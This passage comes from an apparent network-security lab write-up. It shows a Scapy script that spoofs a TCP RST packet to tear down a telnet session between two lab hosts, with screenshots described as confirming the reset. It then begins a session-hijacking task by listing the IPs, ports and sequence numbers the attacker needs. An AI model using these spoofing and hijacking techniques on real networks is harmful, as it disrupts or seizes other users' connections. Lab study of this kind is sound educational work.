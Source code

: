 ```python
from scapy.all import *

user1 = "10.9.0.6"
user2 = "10.9.0.7"

ip = IP(src=user2, dst=user1)
tcp1 = TCP(sport=23, dport=56674, flags="R", seq=1872304799)

pkt = ip/tcp1
send(pkt, verbose=0, iface="br-d359077599dd")

```

```bash
python3 rst.py
```

We see that the connection is terminated in the telnet window.

![](./screenshots/tcp-8.png)

We can also view the wireshark packet sent to prove that a RST packet was sent with the correct port and SEQ numbers that was spoofed from user2.

![](./screenshots/tcp-9.png)

---
## Task 3: TCP Session Hijacking

The same way as the RST attack, we need to figure out the correct set of information needed to be inserted into the packet sent to hijack the session. 

Following the same scenario, that user1 will start the telnet connection with user2, we need to spoof a packet containing data of our choice that it is coming from user1 to user2. 
- We need to figure out the required source and destination IP addresses. **(user1 and user2)**
- The source and destination ports. **(some random port and 23)**
- The SEQ and ACK numbers. **(obtained from the previous packets)**
